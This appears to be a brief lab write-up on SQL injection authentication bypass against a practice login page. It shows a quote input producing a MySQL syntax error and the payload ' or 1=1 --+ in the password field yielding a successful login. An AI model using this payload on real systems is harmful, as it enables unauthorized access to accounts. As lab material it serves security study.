

# Authentication Bypass [SQL Injection]

Target: http://**IP**/SQL-Injection/Authentication-Bypass-Variant-1/

**Input:**  
username: admin'  
password: pass

**Output:**  
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'pass'' at line 1

 

  

**Input:**  
username: admin  
password: pass' or 1=1 --+

**Output:**  
Logged In Successfully 

  

